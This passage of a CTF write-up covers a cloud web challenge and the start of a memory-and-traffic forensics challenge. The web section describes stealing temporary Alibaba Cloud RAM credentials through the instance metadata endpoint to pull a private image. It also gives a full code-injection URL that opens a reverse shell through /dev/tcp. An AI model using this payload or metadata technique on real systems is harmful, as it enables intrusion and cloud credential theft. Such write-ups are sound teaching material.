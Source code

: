 7. Use Alibabacloud metadata to get the host instance metadata, And a worker role on it. https://help.aliyun.com/document_detail/214777.html / /meta-data/ram/security-credentials/ 

8. Use metadata api to get the temp credentials.  

9. Use temp credentials to invoke api GetAuthorizationToken. https://help.aliyun.com/document_detail/72334.html 

10. Pull image from alibabacloud image registry with username cr_temp_user  and authorizationToken as its password. Image: registry.cn-hangzhou.aliyuncs.com/glzjin/6166lover You may know these from the challenge domain, I have deployed in hangzhou of alibabacloud k8s service(ACK). And know the author name is glzjin, and the challenge name 6166lover. 

11. After pull it, just run it with docker run -it registry.cn-hangzhou.aliyuncs.com/glzjin/6166lover bash, and you may get the flag on the image. Thank you:

    Just get your reverse shell like that:

    ```
    http://6166lover.cf8a086c34bdb47138be0b5d5b15b067a.cn-hangzhou.alicontainer.com:81/debug/wnihwi2h2i2j1no1_path_wj2mm?code=__import__(%27os%27).system(%27bash -c "bash -i >%26 /dev/tcp/<your_ip>/<your_port> 0>%261"')
    ```

    And maybe you have to find out a way to fork your process that not jam this application because it's deployed on k8s with a health check.

## MISC

### 1！5！

1. Open the traffic, you can find that consists of two parts, composed of quic and tcp, first look at the bottom tcp

![image-20220724031354864](http://img.l1near.top/image-20220724031354864.png)

![image-20220724031401128](http://img.l1near.top/image-20220724031401128.png)

2. You can see that there is websockets traffic and you can find that each segment sends encrypted data

![image-20220724031457118](http://img.l1near.top/image-20220724031457118.png)

3. extract it all as a backup, manually or script can be, you can see that it is some encrypted content, but do not know how to encrypt, keep it first, look at the memory

4. Analyze the memory and find that it is a lime image, which means it is a linux system image

```
strings memory.mem |grep 'Linux version'
```

![image-20220724033419259](http://img.l1near.top/image-20220724033419259.png)

Get the key information, Linux version 4.19.0-21-amd64, and found to be debian system, after kernel search

